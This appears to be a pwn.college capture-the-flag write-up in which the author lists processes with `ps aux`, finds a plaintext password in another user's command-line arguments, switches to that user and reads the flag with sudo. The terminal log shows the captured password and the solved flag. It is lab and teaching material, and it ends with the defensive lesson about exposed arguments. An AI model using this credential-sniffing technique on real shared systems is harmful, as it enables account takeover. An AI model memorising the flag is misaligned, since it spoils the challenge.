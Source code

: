 # 5. Sniffing Process Arguments

This challenge prompted me to find a password in the arguments of a running process.

## My Solve

**Flag:** `pwn.college{cyxgavPzXzGalA3wSjzkOcBoZUQ.0FOzEzNxwCM2EDNzEzW}`

I used `ps aux` to list all running processes. In the output, I found a script being run by the `zardus` user that had a password (`pw_3108910492`) passed as a command-line argument. I used that password with `su zardus` to log in as them, and then used `sudo cat /flag` to get the flag.

```
hacker@shenanigans~sniffing-process-arguments:~$ ps aux
ps aux

USER         PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND

root           1  0.0  0.0   1056   640 ?        Ss   17:40   0:00 /sbin/docker-init -- /nix/var/nix/profiles/dojo-workspace/bin/dojo-init /run/dojo/bin/slee

root           7  0.0  0.0 231708  2560 ?        S    17:40   0:00 /run/dojo/bin/sleep 6h

root         147  0.0  0.0   5204  3520 ?        S    17:40   0:00 su -c auto.sh --user zardus --pass pw_3108910492 zardus

zardus       151  0.0  0.0   4132  2560 ?        Ss   17:40   0:00 /bin/bash /run/challenge/bin/auto.sh --user zardus --pass pw_3108910492

zardus       152  0.0  0.0 231708  2560 ?        S    17:40   0:00 sleep 6h

hacker       156  0.0  0.0 231576  3520 pts/0    Ss   17:40   0:00 /nix/store/0nxvi9r5ymdlr2p24rjj9qzyms72zld1-bash-interactive-5.2p37/bin/bash /run/dojo/bin

hacker       162  0.0  0.0 231940  4160 pts/0    S    17:40   0:00 /run/dojo/bin/bash --login

hacker       204  0.0  0.0 233600  3840 pts/0    R+   17:48   0:00 ps aux


hacker@shenanigans~sniffing-process-arguments:~$ su zardus
Password:pw_3108910492
zardus@shenanigans~sniffing-process-arguments:/home/hacker$ sudo cat /flag
pwn.college{cyxgavPzXzGalA3wSjzkOcBoZUQ.0FOzEzNxwCM2EDNzEzW}
```

## What I Learned

I learnt that command-line arguments are often visible to all users on a system via the `ps` command, so it's a bad place to put sensitive information like passwords.

## References
